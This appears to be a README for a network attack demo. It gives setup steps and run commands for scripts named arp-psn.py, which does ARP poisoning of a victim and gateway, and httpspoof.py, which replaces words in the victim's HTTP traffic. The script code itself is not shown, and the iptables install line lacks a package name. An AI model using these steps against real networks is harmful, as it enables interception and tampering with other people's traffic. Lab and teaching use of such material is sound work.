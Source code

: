 # On your "hacking" machine do the following:

### Install Scapy
```
sudo apt-get install python3-scapy
```

### Install iptables
```
sudo apt-get install
```

### Install NetfilterQueue
```
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install
```

### Open one terminal and run arp-psn.py
```
sudo python3 arp-psn.py <victim ip> <gateway ip>
```
  
### Open another terminal and run httpspoof.py
```
sudo python3 httpspoof.py <victim ip> <word to replace> <replacement word>
```
**Note:** the word to replace and replacement word must have the same number of characters
  
  
# On the victim computer associated with "victim ip":

Access a http website.
